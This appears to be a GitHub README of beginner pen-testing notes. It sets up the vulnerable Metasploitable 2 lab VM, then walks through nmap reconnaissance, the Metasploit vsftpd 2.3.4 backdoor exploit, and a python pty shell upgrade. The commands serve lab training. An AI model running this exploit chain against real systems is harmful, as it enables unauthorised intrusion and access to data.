

## Ethical Hacking and its Methodology
 [These are Hacking phase (short info)](../self_notes/Hacking_phase.pdf)


Ethical Hacking is an act of penetrating systems and networks to find out the threats in those systems. It is also a process to crack the vulnerabilities in the network which a malicious attacker may exploit, causing loss of data, financial loss, and other significant damages.

Coming to its methodology, ethical hackers use the same methods and tools as used by malicious (black hat) hackers, after the permission of an authorized person. Whereas on the other hand, evil hackers use the methods in disgracing and illegal ways. [Read more](https://medium.com/@DianApps/ethical-hacking-and-its-methodology-41468bc2ea67)





__If u doing pen testing as a ethical hacker then u should reporting a documentation for ur whole process.__ [style of Pen Testing Report](./PenTestPrepDiscussion.docx)


# Start Pen Testing with Metasploitable 2

**If u are not install ur metasploitable on ur vm machine then plz follow these step ---**
```
1. Download Metasploitable from the [link](https://sourceforge.net/projects/metasploitable/)  
2. extract the downloaded zip file 
3. open vm machine and click on < new > option
4. then fill up these info : 

    - name: metasploitable

    - machine folder : default C: drive

    - Type : Linux

    - Version : Ubuntu(64-bit)
5. click next

6. give memory size , minimum 1gb (1024 mb)

7. next

8. click on -> use an existing virtual hard disk file 

  - also click on file icon 

  - then click at < Add > icon   

  - select Metasploitable.vmdk file ( Metasploitable2-Linux / Metasploitable.vmdk )

  - click at attacked file metasploitable.vmdk and then click the choose button
9. click the create  button

10. select metasploitable and click at settings

11. click Network and select

    - Attacked to : Host-only Adapter
    - click on advance and select Promiscuous mode to 'Allow VMs'
    - then click Ok

12. now run ur metasploitable , after  some time it will ask for login and password , 

    so u can login with msfadmin / msfadmin  

13. type --> $ifconfig 

  pick ur inet addr from eth0 ( as my inet addr: 192.168.56.101 )

14. open any browser and go with ur inet addr or skip this step.
```

after install ur metasploitable machine on ur vm then just run it .
then follow the next steps for testing.

### Now let's start for pen testing ..


 
| command | motive | Desc |
|---------|--------|------|
|``` sudo su ```| become a root user | initially run ur kali on vm then open terminal and enter this command to access kali machine as a root user .**default password for kali machine is 'kali' .<br/>if u changed root user name and pass then please type ur password**|
| ```ip a ```| get ur own kali machine's ip  | pick ur eth0 ip address .  for myself that is 10.0.2.14/24 |
|``` netdiscover -r 10.0.2.0/24 ```| discover all ip | with this command we will be able to search all ip within the range of 10.0.2.0 to so far .For example we will get <br/>10.0.2.1<br/>10.0.2.2<br/>10.0.2.3<br/>10.0.2.4<br/>|
| ```nmap 10.0.2.4 ```| scan with nmap for matasploit machine's ip | when we got those ip from netdiscover , we have to scan all of those ip with nmap for check what ip is exactly metasploitable's ip . if match then we will get **protocol , port, service**|
|``` ip="10.0.2.4" ```| set a value at ip var | in this way we don't need to type again and again metas ip address |
|``` nmap -sV -O $ip ```| to get all service and version | when we got metasploit ip and some open service then we have to go with this command to get all service and version name . [nmap related cheat sheet](https://www.stationx.net/nmap-cheat-sheet/) |
| | pick any version from open services | we have to pick any open services version for search on google . such this way we will be find any doc for that version. if we got rappid7 site then we should go with that cz this site is mother company for metasploitable framework.<br/>For example: we found an open tcp protocol for the **vsftpd 2.3.4** version <br/>now we will go with this version and search on google .<br/>then we will find exploits for this module version. open that site nd __read how to load that module for search options.__|
|``` msfconsole ```| run metasploitable machine on kali| in this way we will run metasploitable machine on our kali machine . nowadays m.s are given with updated kali version if u r using old machine then may be u've to install that on ur kali machine.|
|``` search vsftpd ```| search vsfptd module on m.s machine | now as we run m.s console on our kali machine so we can search vsftpd module to ensure that module are exist or not |
|``` 1. use 0 ```<br/>```2. use exploit/unix/ftp/vsftpd_234_backdoor ```| load vsftpd module on m.s console | in this way we can load this module at our m.s machine so we can search all of option for this module|
|``` show options ```| to see which is required for this module | when we load vsftpd module , our nxt step to look what settings are required to set for this module .<br/>- here RHOST means targeted host (m.s machine on vm) initially it'll be blank<br/>- and LHOST means our m.s machine on kali  |
| ```set RHOST 10.0.2.4 ```| set required settings | with this command we set RHOST ip .as we know that RHOST means targeted host for our metasploitable machine on vm . so we know that our RHOST ip is 10.0.2.4 and we set this |
|``` show options  ```| to check our settings are done or not | as we set our RHOST ip , we can check this is set was right or not. after run this command we can see now RHOST ip are visible|
|``` exploit ```<br/>or<br/>```run ```| this is the moment for exploit that module | if we got "shell found" msg that means   successfully we find  exploitations for this module.<br/>- they will provide a terminal to run our next commands to what we want to do.but this terminal are not interactive so we can make our terminal with the next command|
|``` python -c 'import pty;pty.spawn("/bin/bash")' ```| convert into an interactive shell | with this python code we can convert our terminal into an interactive shell |
|``` ls -lart ```| check details list of that directory | now we can run our all linux command on that module's terminal to check what confidential data are available or not . for example if we got any /var/wwww folder that means a website are host on that module, etc |
|``` uname -a ```| check which user are logged | |

[work flow](../self_notes/penTesting_with_metasploitable2.pdf)